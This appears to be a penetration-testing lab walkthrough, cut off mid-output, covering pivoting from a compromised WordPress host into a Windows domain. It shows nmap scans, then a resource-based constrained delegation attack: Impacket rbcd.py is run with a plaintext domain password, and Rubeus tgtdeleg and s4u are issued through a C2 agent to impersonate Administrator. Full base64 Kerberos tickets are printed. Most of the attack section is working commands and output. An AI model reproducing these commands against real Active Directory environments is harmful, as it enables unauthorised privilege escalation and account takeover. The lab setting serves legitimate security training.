








Same here but seems like no success so we can move on?



Running from the Linux wordpress machine:

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.15.201
./nmap -F 10.9.15.201

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:35 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.15.201
Host is up (0.00054s latency).
Not shown: 241 closed ports
PORT      STATE SERVICE
135/tcp   open  epmap
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
10050/tcp open  zabbix-agent

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
www-data@corewebdl:/tmp$
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: core
|   NetBIOS_Domain_Name: core
|   NetBIOS_Computer_Name: COREWKT002
|   DNS_Domain_Name: core.cyber.local
|   DNS_Computer_Name: corewkt002.core.cyber.local
|   DNS_Tree_Name: cyber.local
|   Product_Version: 10.0.19041
|_  System_Time: 2024-06-14T14:27:10+00:00
| ssl-cert: Subject: commonName=corewkt002.core.cyber.local
| Issuer: commonName=corewkt002.core.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T09:42:32
| Not valid after:  2024-12-13T09:42:32
| MD5:   1ef8:17b3:8286:068e:62e2:cb2b:0283:3933
| SHA-1: a08b:117b:1639:690a:4192:0d06:1b70:d2c3:6cc4:7267
| -----BEGIN CERTIFICATE-----
| MIIC+jCCAeKgAwIBAgIQdFCHLzvtspNHQyJ0jT3AMzANBgkqhkiG9w0BAQsFADAm
| MSQwIgYDVQQDExtjb3Jld2t0MDAyLmNvcmUuY3liZXIubG9jYWwwHhcNMjQwNjEz
| MDk0MjMyWhcNMjQxMjEzMDk0MjMyWjAmMSQwIgYDVQQDExtjb3Jld2t0MDAyLmNv
| cmUuY3liZXIubG9jYWwwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC5
| WxvEm40nYgTYWzyW41ugdblT8p0+FaA/z7u0W1nOy6ZBz328EhgHhV6sHBxetiTd
| albR7qFt7964Y5Uz2s+pDcRqJ4xK3sjZm2kq301iKad6TE6Vtf2ghfrlWqikwoOV
| eL4owUtLYaPkoCGgCvXZcgye8kqTXeCaEp0dwYxV7L0A0P6cODdNlHea+RZCW+y2
| XHZfv28USLuFVXGET5eYNcSHaXjAhye/bwI9gPiq4XrsAQZVQiqc1VYN0+l1BhnB
| PnOqEMZRxlK4VBH9/kPVRA5TaIjT8xz9bV2S2PLUCEiEvnYQe6jDUnUY1ov4jEWx
| lkYmCoiGUMyGmzJDUD9dAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsG
| A1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAk4xzc/DoQQ3HDuM6Jo7WqYou
| vM7iQD7d61OdeqCjYEZYC0aqwBNMHFzEuyqpx/wAJ8l0gTrQALaz5rw/skVTi3HH
| L6XD9rcl4xr5GPPtSWrnK2pCtJoFsSyngFelVqKAPh7A1XVC2SKtp7/uSn8NljMQ
| UCLxHwwT+a2U44AObUFURCO1i2YdFecYbIWi2ETs9cCKbnlSf7m2kHh1zxWRaa7f
| xcmetqOhkmata+Gymnzq/SJtsAgeFRULwkXpSe0niGbJJuaOpnKABH9VEl2r39hB
| GW3wuEwpadBhnIaJKl+J8C/9mkgDwvDrcfWZpHV8ldOQpJ8oKymriUBGjsf6kQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:27:25+00:00; +1s from scanner time.
5040/tcp  open  unknown       syn-ack ttl 64
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
10050/tcp open  tcpwrapped    syn-ack ttl 64
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

&nbsp;

# Back on track

Now we have Ilene's credentials so we can move on and perform a RBCD again  on the workstaton n002



Now to perform this attack we need a SPN. we can either add a new machine to AD and use the SPN from there or just use the Workstation001 as carrier. so we can add the write permission via Linux:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# rbcd.py -delegate-from 'COREWKT001$' -delegate-to 'COREWKT002$' -dc-ip 10.9.15.10  -action 'write' core.cyber.local/ilene.rasch:jiuPhee9   
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     Ilene.Rasch   (S-1-5-21-1559563558-3652093953-1250159885-1103)
[*] Delegation rights modified successfully!
[*] COREWKT001$ can now impersonate users on COREWKT002$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     Ilene.Rasch   (S-1-5-21-1559563558-3652093953-1250159885-1103)
[*]     corewkt001$   (S-1-5-21-1559563558-3652093953-1250159885-1396)
```

But the impacket-getst doesn't work cause I was using irene so now we can use rubeus instead! And we must ask the tgt:

```
8/06/2024 20:30:40 [yovecio] Demon » shell "C:\temp\Rubeus.exe tgtdeleg /nowrap"
[*] [46A9C2BF] Tasked demon to execute a shell command
[+] Send Task to Agent [174 bytes]
[+] Received Output [2912 bytes]:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/coredc.core.cyber.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: ZaVeQDrg2/U02KKXy8LRCobUPYp3rTXr8wk3+WhUDZI=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIEvjCCBLphggS2MIIEsqADAgEFoRIbEENPUkUuQ1lCRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPUkUuQ1lCRVIuTE9DQUyjggRuMIIEaqADAgESoQMCAQWiggRcBIIEWNbOPkD0e8bVqlirQA8SQYMTeYVU8zioBPxq1GngE6aH40Q8RW7ds+kX5P8y8QFncz3Q68ZJul9Yi1+5DEm75VREDL9ricuUEVbbUbD7ZObA52mRuZxYpavGnukelXpYLkx36B+mxpJSZQ6EVoL+BuKAR4Y21ZeePzMIsGxfbcvrjI853NIIsyEP3SdIr/GApnE1hZIaCWP35lGQP7owvvlJtqrZ99sOMdCVNanaHJuTOiqHuJzyh1usGkxPKMIdOyAf2NG4+PTv7nDhHa2JFAivwzmvGhV+DYgErlJYJB9gaSjM6IAHEO06Ws+VPx5vL0QCZajq4DkKWgFnS5pP1Y1TGY5Qbef5oaMS52BINSRjpt+JxDSVhJi1sJVMgpM6twkyPA5KMSDLlG/zAHp1IhjoipNgi/tnMBFeREZPNcmORerhufOKwesSb6Nh7wAjX2LUbRoe/tuNvMuL8ciHlbjfgtFopPJw+oCjZcVSSxDJZmQ8WB/DRtSQddRMlGH9FGwpUwCKCbCv12ZsvG55CF0NH0hhJKO0ANTTb2fOn2EC65KM7dppuYZ6wFT0NIg0m9ERsiI/5nSmh0raQktIKNtDPScZrZO/pg6PpYqEiIm8dmwv+zUbBR9KTnnp0Aos0fHKmzEy6ufDLb54cj5M6wCBZtW9YAnWSGEFGOwvMLuXMHQUOANszyL4dB+i1pmkLCBte4mSwTkDfDOYizvpbUb25c4zbNgDjVLqBA9BELNa32AtA9MHkBGpxcqFMQixwgcBQwSSRZkKxekHWPym+mYDe0emKqtjfq9r7uL30uHJzWEngPz8ugMow3sRNyawufC55ERvdnMpAj8N5V6twVPq1cAktkcpyg7+ZJ5JBMc7I7Aelw1GZHRIvAjQ7XEKH35spvu1m8dfAbq4ao/U/u5b/dZWeS44KFfCikxvIDNK96A/pkB2pEFc4vekCA3TNe7hMdTzMec3XQ9K0q/TfUg7xEu2snsGb5sKGxZOSUxjS4jcyfn0HZ3qkwcfu4hB8zjAKBXbllysfuude/LSIvMlFfnAE0bT0KdFRw3k1Rq4cIzBdu/+ZyWnO7AnrHfRMbobSmb5as2ko1hu6ewRmMIsV2ZRD4D2rjHdJs7iy3vHT8/Yc6iPo962sWxDiYBYyCiIj59lYNkK711yxtSGa2bh9RJknnP0jHuyVM/AaqmUEiqBNLIc1wD+w7VSMW0zEqDquv4eY05HbOfTCiSn94EpG476H9CQuZa1aJsfR5vxBrqdPwF0nemNsDqUYFouJEFGNSDxIKgdyLJyXeHhnufLpSqd7NjnNoDQ9p3YVyWxpWwQxLI8zf2SR67ZHIRr43Bbsr3tKCc6Dw/j4XHLuwfPvGHyefEueC2FzaMzvlVDAis31TbIsJR7vREt2MO1gJsUh256rpsNX/ugBPB7kVYqltQOzBHnXmUHoou/nwKqWIAyb0S05lW4g4n+SVM8lisFztWRuRd5o4H1MIHyoAMCAQCigeoEged9geQwgeGggd4wgdswgdigKzApoAMCARKhIgQgyiowTe8zS9bYIOc0BrZ7Z2AJ4K1ySdLvYyqVuY3Fo++hEhsQQ09SRS5DWUJFUi5MT0NBTKIYMBagAwIBAaEPMA0bC2NvcmV3a3QwMDEkowcDBQBgoQAApREYDzIwMjQwNjE4MTQzMDUxWqYRGA8yMDI0MDYxOTAwMzA0OVqnERgPMjAyNDA2MjUxNDMwNDlaqBIbEENPUkUuQ1lCRVIuTE9DQUypJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPUkUuQ1lCRVIuTE9DQUw=
```

Asking a TGS:

```
18/06/2024 20:34:18 [yovecio] Demon » shell "C:\temp\Rubeus.exe s4u /user:COREWKT001$ /ticket:doIFyDCCBcSgAwIBBaEDAgEWooIEvjCCBLphggS2MIIEsqADAgEFoRIbEENPUkUuQ1lCRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPUkUuQ1lCRVIuTE9DQUyjggRuMIIEaqADAgESoQMCAQWiggRcBIIEWNbOPkD0e8bVqlirQA8SQYMTeYVU8zioBPxq1GngE6aH40Q8RW7ds+kX5P8y8QFncz3Q68ZJul9Yi1+5DEm75VREDL9ricuUEVbbUbD7ZObA52mRuZxYpavGnukelXpYLkx36B+mxpJSZQ6EVoL+BuKAR4Y21ZeePzMIsGxfbcvrjI853NIIsyEP3SdIr/GApnE1hZIaCWP35lGQP7owvvlJtqrZ99sOMdCVNanaHJuTOiqHuJzyh1usGkxPKMIdOyAf2NG4+PTv7nDhHa2JFAivwzmvGhV+DYgErlJYJB9gaSjM6IAHEO06Ws+VPx5vL0QCZajq4DkKWgFnS5pP1Y1TGY5Qbef5oaMS52BINSRjpt+JxDSVhJi1sJVMgpM6twkyPA5KMSDLlG/zAHp1IhjoipNgi/tnMBFeREZPNcmORerhufOKwesSb6Nh7wAjX2LUbRoe/tuNvMuL8ciHlbjfgtFopPJw+oCjZcVSSxDJZmQ8WB/DRtSQddRMlGH9FGwpUwCKCbCv12ZsvG55CF0NH0hhJKO0ANTTb2fOn2EC65KM7dppuYZ6wFT0NIg0m9ERsiI/5nSmh0raQktIKNtDPScZrZO/pg6PpYqEiIm8dmwv+zUbBR9KTnnp0Aos0fHKmzEy6ufDLb54cj5M6wCBZtW9YAnWSGEFGOwvMLuXMHQUOANszyL4dB+i1pmkLCBte4mSwTkDfDOYizvpbUb25c4zbNgDjVLqBA9BELNa32AtA9MHkBGpxcqFMQixwgcBQwSSRZkKxekHWPym+mYDe0emKqtjfq9r7uL30uHJzWEngPz8ugMow3sRNyawufC55ERvdnMpAj8N5V6twVPq1cAktkcpyg7+ZJ5JBMc7I7Aelw1GZHRIvAjQ7XEKH35spvu1m8dfAbq4ao/U/u5b/dZWeS44KFfCikxvIDNK96A/pkB2pEFc4vekCA3TNe7hMdTzMec3XQ9K0q/TfUg7xEu2snsGb5sKGxZOSUxjS4jcyfn0HZ3qkwcfu4hB8zjAKBXbllysfuude/LSIvMlFfnAE0bT0KdFRw3k1Rq4cIzBdu/+ZyWnO7AnrHfRMbobSmb5as2ko1hu6ewRmMIsV2ZRD4D2rjHdJs7iy3vHT8/Yc6iPo962sWxDiYBYyCiIj59lYNkK711yxtSGa2bh9RJknnP0jHuyVM/AaqmUEiqBNLIc1wD+w7VSMW0zEqDquv4eY05HbOfTCiSn94EpG476H9CQuZa1aJsfR5vxBrqdPwF0nemNsDqUYFouJEFGNSDxIKgdyLJyXeHhnufLpSqd7NjnNoDQ9p3YVyWxpWwQxLI8zf2SR67ZHIRr43Bbsr3tKCc6Dw/j4XHLuwfPvGHyefEueC2FzaMzvlVDAis31TbIsJR7vREt2MO1gJsUh256rpsNX/ugBPB7kVYqltQOzBHnXmUHoou/nwKqWIAyb0S05lW4g4n+SVM8lisFztWRuRd5o4H1MIHyoAMCAQCigeoEged9geQwgeGggd4wgdswgdigKzApoAMCARKhIgQgyiowTe8zS9bYIOc0BrZ7Z2AJ4K1ySdLvYyqVuY3Fo++hEhsQQ09SRS5DWUJFUi5MT0NBTKIYMBagAwIBAaEPMA0bC2NvcmV3a3QwMDEkowcDBQBgoQAApREYDzIwMjQwNjE4MTQzMDUxWqYRGA8yMDI0MDYxOTAwMzA0OVqnERgPMjAyNDA2MjUxNDMwNDlaqBIbEENPUkUuQ1lCRVIuTE9DQUypJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPUkUuQ1lCRVIuTE9DQUw= /impersonateuser:Administrator /msdsspn:cifs/COREWKT002.CORE.CYBER.LOCAL /ptt"
[*] [A3CE5B49] Tasked demon to execute a shell command
[+] Send Task to Agent [4318 bytes]
[+] Received Output [4144 bytes]:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'corewkt001$@CORE.CYBER.LOCAL'
[*] Using domain controller: coredc.core.cyber.local (10.9.15.10)
[*] Sending S4U2self request to 10.9.15.10:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'corewkt001$@CORE.CYBER.LOCAL'
[*] base64(ticket.kirbi):

      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

[*] Impersonating user 'Administrator' to target SPN 'cifs/COREWKT002.CORE.CYBER.LOCAL'
[*] Building S4U2proxy request for service: 'cifs/COREWKT002.CORE.CYBER.LOCAL'
[*] Using domain controller: coredc.core.cyber.local (10.9.15.10)
[*] Sending S4U2proxy request to domain controller 10.9.15.10:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/COREWKT002.CORE.CYBER.LOCAL':

      doIG1jCCBtKgAwIBBaEDAgEWooIF0TCCBc1hggXJMIIFxaADAgEFoRIbEENPUkUuQ1lCRVIuTE9DQUyi
      LjAsoAMCAQKhJTAjGwRjaWZzGxtDT1JFV0tUMDAyLkNPUkUuQ1lCRVIuTE9DQUyjggV4MIIFdKADAgES
      oQMCAQGiggVmBIIFYip+WMfhMjlCdgrRbtbd5Pi2ASvx/rtGahMgp20XgsGO18K61Q17ZNsTxPs5Cdyb
      hFZuHC8KVvrSm7QYS3UruusU5XGVrIaxCLNrSTSZaFxWnvcRS0p/2CAkSlPDWHBVjOw2Ho7e1p7pTBCA
      ycP25UzNJpeT14krw/R+2pj2D8pn3WrlbR38VSKF6+UvtM6qR2ZV+F0FhgjAg2rlAMCroqYCaSBXNnhK
      g6nryOf38UGgHHnwFig7jtDexMAmnun6v6sPiKKV2hJ45Sx1cjDPQYPczb6h6doeEkC2UoacpbXa3VvP
      9Dwo2rv8wnkcBU5vQeW9l4R2kombtkFyf4K1jiif5JRRTTZ6kK/JNfKlW2HMMlcsIdNatNY/lSU7/Nat
      0nj3yXYkktVqhbc7XOK6Dd4yjl5Qnu2LoyZjFXEsXh3DQMXuJJzhMopIJyuUaT6UPPQNKl8VpGhGhTO2
      NgEUNzeAblrvpAB+TyLjCk74unwud2/ctz8xL0od5DtBLyjT9++aevBZmoZjwhE7//6CK7Bi1Alhg3N4
      /6mc6nG9fJfnkgoSOZaCLiCmnvXD9AGZ0uqA76RiLBx4t4KKHAn2JUR0irlwI0p40TBGbTmFq2uF6cq+

[+] Received Output [1735 bytes]:
      Fm8HNePXLQJQGZ90M7VnZetrY+VokYb6Df6fcmBRbxvGo7hy1G+kB48XaTSSOih+usnZ7COc/B5mZzHN
